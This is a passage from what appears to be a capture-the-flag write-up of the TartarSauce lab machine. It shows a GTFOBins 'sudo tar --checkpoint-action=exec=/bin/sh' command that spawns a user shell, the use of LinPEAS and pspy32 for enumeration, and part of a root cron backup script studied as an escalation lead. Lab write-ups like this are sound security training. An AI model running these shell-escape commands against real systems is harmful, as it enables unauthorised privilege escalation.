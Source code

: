 From GTFOBins, we can use this command to get a shell as the user:

```bash
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

<figure><img src="../../../.gitbook/assets/image (610).png" alt=""><figcaption></figcaption></figure>

We can now grab the user flag.&#x20;

### Backuperer

I ran LinPEAS to enumerate further for me, which found a few possible leads but it all led to dead ends. I then ran `pspy32` to double check on processes by all users. This was when I saw this process:

```
2023/05/02 11:14:41 CMD: UID=0    PID=23714  | /bin/bash /usr/sbin/backuperer 
2023/05/02 11:14:41 CMD: UID=0    PID=23719  | /bin/sleep 30
```

There's a program `backuperer` being run by `root` periodically. This was actually a `bash` script, and here's its contents:

```bash
onuma@TartarSauce:/tmp$ cat /usr/sbin/backuperer
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &
```